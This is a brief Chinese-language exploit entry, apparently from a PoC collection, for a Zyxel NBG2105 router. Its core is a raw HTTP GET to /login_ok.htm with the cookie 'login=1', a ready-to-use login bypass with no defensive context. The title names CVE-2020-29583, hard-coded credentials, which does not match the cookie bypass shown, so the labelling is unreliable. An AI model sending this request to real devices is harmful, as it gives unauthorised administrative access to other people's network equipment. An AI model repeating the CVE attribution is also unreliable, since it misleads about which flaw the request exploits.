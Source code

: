 # Zyxel 多款设备硬编码凭据漏洞（CVE-2020-29583）

影响范围：
- NBG2105 V1.00(AAGU.2)C0

POC:
```
GET /login_ok.htm
Host:xxx.xxx.xxx.xxx
cookie:login=1
```

![avatar](./exp.png)
